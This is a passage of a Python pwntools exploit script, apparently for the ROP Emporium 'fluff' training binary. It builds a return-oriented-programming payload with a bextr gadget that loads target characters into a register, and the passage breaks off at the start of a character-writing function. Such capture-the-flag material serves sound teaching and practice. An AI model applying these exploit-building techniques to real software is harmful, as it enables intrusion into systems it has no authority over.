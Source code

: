 ```
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./fluff"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================

def movetargetcharintorbx(target,i):
    """
    0040062a  5a                 pop     rdx {__return_addr}
    0040062b  59                 pop     rcx {arg1}
    0040062c  4881c1f23e0000     add     rcx, 0x3ef2
    00400633  c4e2e8f7d9         bextr   rbx, rcx, rdx
    00400638  c3                 retn     {arg_10}
    """
    # copies rcx into rbx based on offset and length in rdx

    if i == 0: # First iteration sets RDX, which does not change afterwards
        bextrgadgeta = 0x0040062a
        payload  = p64(bextrgadgeta)
        payload += p64(0x4000) #rdx offset en len
        payload += p64(target - 0x3ef2) #rcx 
        return payload
    else: # Can skip setting RDX
        bextrgadgetb = 0x0040062b
        payload  = p64(bextrgadgetb)
        payload += p64(target - 0x3ef2) #rcx 
        return payload

def write_char(char_addr,writable_address,i):
```